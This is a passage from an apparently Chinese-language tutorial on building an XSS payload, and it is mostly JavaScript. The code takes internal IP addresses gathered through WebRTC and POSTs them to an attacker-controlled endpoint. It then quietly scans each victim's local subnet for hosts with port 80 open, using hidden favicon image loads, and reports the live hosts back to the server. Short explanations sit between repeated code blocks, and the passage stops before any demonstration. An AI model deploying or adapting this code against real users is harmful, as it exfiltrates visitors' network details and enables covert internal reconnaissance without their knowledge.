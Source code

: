 上一节的结尾可以看到`webrtcxss.getIp()`;已经调用了WebRTC来获取到内网的IP信息，IP保存在ipList数组变量里。这里就要检测内网中所有开放80端口的IP了。这里我写了一个函数来把这一步放到函数里：
```javascript
function iteratesIp(){
    stage(1)
    ipAjax = new XMLHttpRequest();
    ipAjax.open('POST', sendsurvivalIp, false);
    ipAjax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    ipAjax.send('survivalip='+ ipList.join("-") + '&onlystring=' + onlyString);
    for(var i = 0;i < ipList.length;i++){
        incompleteIp = ipList[i].split(".");
        incompleteIp.pop();
        incompleteIp = incompleteIp.join(".");
        for(var j = 1;j < 255;j++){
            var ip = incompleteIp + "." + j;
            var imgTag = document.createElement("img");
            imgTag.setAttribute("src","http://" + ip + "/favicon.ico");
            imgTag.setAttribute("onerror","javascript:deathIpLIst.push('"+ip+"')");
            imgTag.setAttribute("onload","javascript:survivalIpLIst.push('"+ip+"')");
            imgTag.setAttribute("style","display:none;");
            document.getElementsByTagName("body")[0].appendChild(imgTag);
        }
    }
}
setTimeout("iteratesIp()",20000);
(function(){
    if(deathIpLIst.length + survivalIpLIst.length == 254){
        snedIteratesIpData(survivalIpLIst);
    }else{
        setTimeout(arguments.callee,5000);
    }
})();
```
至于其中的`stage(1)`是我自己写的一个函数，用于实时向服务端发送当前最新的运行情况，我们放到最后再说。
```javascript
ipAjax = new XMLHttpRequest();
ipAjax.open('POST', sendsurvivalIp, false);
ipAjax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
ipAjax.send('survivalip='+ ipList.join("-") + '&onlystring=' + onlyString);
```
这段代码是把当前获取到的内网IP发送到服务端，至于为什么要在ipList后面加上join("-")函数是因为WebRTC有时会把获取网关、VM虚拟机的IP也获取上来。
```javascript
for(var i = 0;i < ipList.length;i++){
    incompleteIp = ipList[i].split(".");
    incompleteIp.pop();
    incompleteIp = incompleteIp.join(".");
    for(var j = 1;j < 255;j++){
        var ip = incompleteIp + "." + j;
        var imgTag = document.createElement("img");
        imgTag.setAttribute("src","http://" + ip + "/favicon.ico");
        imgTag.setAttribute("onerror","javascript:deathIpLIst.push('"+ip+"')");
        imgTag.setAttribute("onload","javascript:survivalIpLIst.push('"+ip+"')");
        imgTag.setAttribute("style","display:none;");
        document.getElementsByTagName("body")[0].appendChild(imgTag);
    }
}
```
这段代码是遍历所有内网主机80端口的。我们来实际看下把：
